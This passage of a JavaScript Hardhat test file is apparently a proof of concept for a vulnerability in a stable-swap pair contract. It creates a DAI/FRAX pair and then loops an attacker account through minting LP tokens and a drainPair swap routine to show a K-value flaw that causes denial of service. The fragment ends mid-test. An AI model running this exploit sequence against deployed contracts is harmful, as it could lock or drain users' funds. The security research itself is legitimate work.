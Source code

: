 ```
        // This is to match the PoC's final state of 1 t0 and 2 t1
        const amountT0ToSwapOut = currentBalanceT0InPair.gt(0) ? currentBalanceT0InPair.sub(1) : ethers.BigNumber.from(0);
        if (amountT0ToSwapOut.gt(0)) {
            await pairInstance.connect(currentAttacker).swap(amountT0ToSwapOut, 0, currentAttacker.address, "0x");
        }
    }

    it.only("should demonstrate the K value vulnerability leading to DOS", async function () {
        // Determine token0 and token1 based on addresses for createPair
        let tokenA, tokenB;
        if (dai.address.toLowerCase() < frax.address.toLowerCase()) {
            tokenA = dai; // token0
            tokenB = frax; // token1
        } else {
            tokenA = frax; // token0
            tokenB = dai; // token1
        }

        // Create a stable pair
        // The deployer of PairFactory is the owner and can create pairs
        const tx = await factory.connect(deployer).createPair(tokenA.address, tokenB.address, true);
        const receipt = await tx.wait();
        const pairAddress = await factory.getPair(tokenA.address, tokenB.address, true);
        expect(pairAddress).to.not.equal(ethers.constants.AddressZero, "Pair address should not be zero");

        const pair = Pair.attach(pairAddress);

        console.log(`Pair Address: ${pair.address}`);
        console.log(`Token0: ${await pair.token0()} (${tokenA.address === await pair.token0() ? await tokenA.symbol() : await tokenB.symbol()})`);
        console.log(`Token1: ${await pair.token1()} (${tokenB.address === await pair.token1() ? await tokenB.symbol() : await tokenA.symbol()})`);

        const numCycles = 11;
        for (let i = 0; i < numCycles; i++) {
            console.log(`\nCycle ${i + 1}/${numCycles}`);

            // Attacker transfers MINT_AMOUNT of each token to the pair
            await tokenA.connect(attacker).transfer(pair.address, MINT_AMOUNT);
            await tokenB.connect(attacker).transfer(pair.address, MINT_AMOUNT);
            console.log(`  Transferred ${MINT_AMOUNT.toString()} of ${await tokenA.symbol()} and ${await tokenB.symbol()} to pair.`);

            // Attacker mints LP tokens
            const mintTx = await pair.connect(attacker).mint(attacker.address);
            const mintReceipt = await mintTx.wait();
            // Find the Mint event to get actual minted liquidity amount (optional, for detailed logging)
            // const mintEvent = mintReceipt.events.find(e => e.event === 'Mint');
            // const mintedLP = mintEvent.args.liquidity; // This might not be the direct LP amount, depends on Pair event

            const lpBalance = await pair.balanceOf(attacker.address);
            const totalSupply = await pair.totalSupply();
            console.log(`  Minted LP. Attacker LP Balance: ${lpBalance.toString()}, Pair TotalSupply: ${totalSupply.toString()}`);

            // Call drainPair without initial balances, it will fetch them
            await drainPair(pair, attacker, tokenA, tokenB);
```